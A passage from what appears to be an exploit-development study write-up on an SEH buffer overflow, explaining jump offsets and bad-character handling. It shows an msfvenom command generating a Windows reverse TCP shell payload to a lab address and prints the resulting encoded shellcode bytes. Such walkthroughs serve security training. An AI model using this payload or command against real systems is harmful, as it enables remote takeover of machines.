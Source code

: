 Previously we were jumping 6 bytes as demonstrated in the following diagram:

![](/assets/images/CTP/masterDiagram.JPG)

However, this time there are not two `\x90` bytes to jump over so we only need to clear the other SEH component which is 4 bytes long. 

But wait! There's more! Are we sure our reverse shell `msfvenom` generated payload would withstand our bad character restriction? It actually would not, there is an `\xeb` in our payload. Let's rerun our payload generation and specify this bad character to form good habits. 
```terminal_session
astrid:~/ # msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.199 lport=443 EXITFUNC=thread -b "\x00\xeb" -f c                                                                                                  [21:41:14]
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1500 bytes
unsigned char buf[] = 
"\xda\xc8\xd9\x74\x24\xf4\xb8\x86\xa2\x3b\x8b\x5a\x29\xc9\xb1"
"\x52\x31\x42\x17\x83\xc2\x04\x03\xc4\xb1\xd9\x7e\x34\x5d\x9f"
"\x81\xc4\x9e\xc0\x08\x21\xaf\xc0\x6f\x22\x80\xf0\xe4\x66\x2d"
"\x7a\xa8\x92\xa6\x0e\x65\x95\x0f\xa4\x53\x98\x90\x95\xa0\xbb"
"\x12\xe4\xf4\x1b\x2a\x27\x09\x5a\x6b\x5a\xe0\x0e\x24\x10\x57"
"\xbe\x41\x6c\x64\x35\x19\x60\xec\xaa\xea\x83\xdd\x7d\x60\xda"
"\xfd\x7c\xa5\x56\xb4\x66\xaa\x53\x0e\x1d\x18\x2f\x91\xf7\x50"
"\xd0\x3e\x36\x5d\x23\x3e\x7f\x5a\xdc\x35\x89\x98\x61\x4e\x4e"
"\xe2\xbd\xdb\x54\x44\x35\x7b\xb0\x74\x9a\x1a\x33\x7a\x57\x68"
"\x1b\x9f\x66\xbd\x10\x9b\xe3\x40\xf6\x2d\xb7\x66\xd2\x76\x63"
"\x06\x43\xd3\xc2\x37\x93\xbc\xbb\x9d\xd8\x51\xaf\xaf\x83\x3d"
"\x1c\x82\x3b\xbe\x0a\x95\x48\x8c\x95\x0d\xc6\xbc\x5e\x88\x11"
"\xc2\x74\x6c\x8d\x3d\x77\x8d\x84\xf9\x23\xdd\xbe\x28\x4c\xb6"
"\x3e\xd4\x99\x19\x6e\x7a\x72\xda\xde\x3a\x22\xb2\x34\xb5\x1d"
"\xa2\x37\x1f\x36\x49\xc2\xc8\xf9\x26\xcd\xcf\x92\x34\xcd\xce"
"\xd9\xb0\x2b\xba\x0d\x95\xe4\x53\xb7\xbc\x7e\xc5\x38\x6b\xfb"
"\xc5\xb3\x98\xfc\x88\x33\xd4\xee\x7d\xb4\xa3\x4c\x2b\xcb\x19"
```